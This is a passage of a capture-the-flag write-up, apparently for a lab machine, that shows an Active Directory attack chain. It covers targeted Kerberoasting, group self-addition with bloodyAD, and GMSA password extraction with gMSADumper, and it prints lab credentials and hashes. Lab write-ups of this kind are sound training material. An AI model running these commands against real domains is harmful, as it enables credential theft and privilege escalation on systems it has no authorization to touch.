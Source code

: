 ## Exploitation: The Attack Chain

### First Step - Kerberoasting

The first step we need to exploit is that the user Henry has "WriteSPN" to the user Alfred.
With this ability we can attempt to add a SPN and then do a kerberos auth to obtain a crackable hash, it’s called: Targeted Kerberoasting.

```bash
python3 targetedKerberoast/targetedKerberoast.py -u henry -p 'H3nry_987TGV!' --dc-ip 10.10.11.72 -d tombwatcher.htb
```

Before running this, I synchronized my local time with the domain controller to avoid Kerberos authentication issues:

```bash
sudo ntpdate -u 10.10.11.72
```

The Kerberoasting attack successfully retrieved a hash for user `alfred`, which I cracked to obtain the password: **`basketball`**

---


### Step 2: Adding Alfred to Infrastructure Group

BloodHound revealed that `alfred` has **AddSelf** privileges on the **Infrastructure** group. I used `bloodyAD` to add alfred to this group:

```bash
bloodyAD --host '10.10.11.72' -d 'tombwatcher.htb' -u 'alfred' -p 'basketball' add groupMember INFRASTRUCTURE alfred    
```

✅ **Success!** Alfred is now a member of the Infrastructure group.

### Step 2: Reading GMSA Password for ansible_dev$

The Infrastructure group has **ReadGMSAPassword** privileges on the `ansible_dev$` computer account. Group Managed Service Accounts (GMSA) store their passwords in a readable attribute for authorized users. I extracted the password using gMSADumper:

**References:**
- [Group Managed Service Accounts Overview](https://learn.microsoft.com/en-us/windows-server/security/group-managed-service-accounts/group-managed-service-accounts-overview)
- [gMSADumper Tool](https://github.com/micahvandeusen/gMSADumper)

```bash
python3 gMSADumper.py -u 'alfred' -p 'basketball' -d 'tombwatcher.htb'
```

**Result:**
```bash
Users or groups who can read password for ansible_dev$:
 > Infrastructure
ansible_dev$:::4f46405647993c7d4e1dc1c25dd6ecf4
ansible_dev$:aes256-cts-hmac-sha1-96:2712809c101bf9062a0fa145fa4db3002a632c2533e5a172e9ffee4343f89deb
ansible_dev$:aes128-cts-hmac-sha1-96:d7bda16ace0502b6199459137ff3c52d
```
